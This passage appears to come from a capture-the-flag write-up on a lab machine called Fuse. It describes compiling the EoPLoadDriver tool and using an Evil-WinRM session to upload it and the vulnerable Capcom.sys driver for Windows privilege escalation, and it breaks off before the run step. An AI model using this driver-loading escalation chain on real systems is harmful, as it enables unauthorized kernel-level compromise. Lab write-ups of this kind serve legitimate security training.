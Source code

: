 I'll replace all the code in `EoPLoadDriver.cpp` with the code from
[GitHub](https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp),
and save it. For some reason, it doesn't like the `include "stdafx.h"`.
This is [some kind of Visual Studio
artifact](https://stackoverflow.com/questions/22621928/fatal-error-stdafx-h-file-not-found),
and it can be removed.

Now I'll set the project to "Release" and "x64":

![](/img/image-20200619144130467.png)

Then I'll select Build --\> Build Solution, and the output at the bottom
shows it works:

![](/img/image-20200619144211509.png)

I'll copy `EoPLoadDriver.exe` back to my Kali host.

#### Execute

I'll upload the driver and the loader to Fuse:



    *Evil-WinRM* PS C:\programdata> upload Capcom.sys
    Info: Uploading Capcom.sys to C:\programdata\Capcom.sys

                                                                 
    Data: 14100 bytes of 14100 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\programdata> upload EoPLoadDriver.exe
    Info: Uploading EoPLoadDriver.exe to C:\programdata\EoPLoadDriver.exe

                                                                 
    Data: 20480 bytes of 20480 bytes copied

    Info: Upload successful!



Run it just like in the blog post:
